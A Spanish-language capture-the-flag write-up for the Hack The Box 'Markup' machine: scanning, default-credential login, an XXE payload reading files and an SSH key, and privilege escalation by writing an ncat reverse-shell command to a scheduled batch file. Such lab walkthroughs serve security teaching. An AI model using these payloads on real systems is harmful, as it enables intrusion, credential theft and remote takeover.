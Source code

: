```yaml
---
title: Markup
layout: page
permalink: /HTB_Markup
---
```


<h2 class="amarillo">Markup</h2>
<div id="imgs" style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/markup.webp" alt="under" oncontextmenu="return false;">
</div>


Encendemos la máquina y una vez verificados con ping lanzaremos un escaneo rápido y sigiloso con nmap para identificar los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.95.192 -oG allPorts
```

![[HTB/Starting Point VIP/Tier 3/Markup/Images/nmap.png]]

Utilizando la utilidad de extractPorts como siempre copiaremos los puertos abiertos de la captura y haremos un escano exhaustivo para identificar la version y servicio que corren para estos puertos:
![[HTB/Starting Point VIP/Tier 3/Markup/Images/extractPorts.png]]

Miramos los resultados del escaneo:
![[HTB/Starting Point VIP/Tier 3/Markup/Images/nmap2.png]]

# Explotación

Vemos un servicio web, podemos probar a enumerarlo con whatweb para ver un poquito a que nos estamos enfrentando:

![[HTB/Starting Point VIP/Tier 3/Markup/Images/whatweb.png]]

Vemos un apache y un ssl, recordar importante que ssl es un puerto para HTTPS entonces también podemos atentar contra este puerto con whatweb:
![[HTB/Starting Point VIP/Tier 3/Markup/Images/whatweb2.png]]

Sin muchos resultados abrimos la web y nos encontramos un panel de login:
![[HTB/Starting Point VIP/Tier 3/Markup/Images/web.png]]

Pudimos burlar este panel con admin:password como credenciales por defecto.
![[HTB/Starting Point VIP/Tier 3/Markup/Images/web2.png]]

Vemos que la página tiene una parte curiosa y llama mucho la atención:

![[xml.png]]

Probamos a colocar datos y interceptar la petición con Caido:
![[HTB/Starting Point VIP/Tier 3/Markup/Images/caido.png]]

Y vemos que se está tramitando un estructura en XML, y como estamos frente a un Windows podemos tratar de listar contenido del hosts:
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/system32/drivers/etc/hosts'>]>
<order>
<quantity>
3
</quantity>
<item>
&test;
</item>
<address>
17th Estate, CA
</address>
</order>
```

![[HTB/Starting Point VIP/Tier 3/Markup/Images/caido2.png]]

Y efectivamente, por tanto tenemos un XXE XML EXternal Entity, podemos intentar otra cosa como ir listando el directorio del usuario y vemos que podemos acceder al directorio de daniel y a su carpeta .ssh:
![[HTB/Starting Point VIP/Tier 3/Markup/Images/caido3.png]]

Una vez tenemos esta llave rsa podemos conectarnos por SSH:
![[HTB/Starting Point VIP/Tier 3/Markup/Images/user.png]]

Y habremos completado la intrusión:

# Escalada

Al igual que las máquinas Linux con `sudo -l` en Windows podemos hacer `whoami /priv`

![[HTB/Starting Point VIP/Tier 3/Markup/Images/escalada.png]]

Podemos acceder a directorios privilegiados y encontramos dentro de C:\ un directorio inusual llamado Log-Management
![[HTB/Starting Point VIP/Tier 3/Markup/Images/escalada2.png]]

Vemos que podemos ejecutar job.bat como Administrator y usando icacls podemos confirmarlo
![[HTB/Starting Point VIP/Tier 3/Markup/Images/escalada3.png]]

La idea será subir el ncat para windows y entablar una reverse shell abusando del binario.bat
![[HTB/Starting Point VIP/Tier 3/Markup/Images/escalada4.png]]
Estando en escucha por el puerto 443 ejecutamos `echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.16.12 443 > C:\Log-Management\job.bat`

![[HTB/Starting Point VIP/Tier 3/Markup/Images/metidos.png]]

Voila! obtenemos la shell como Administrator.

![[HTB/Starting Point VIP/Tier 3/Markup/Images/pwn.png]]

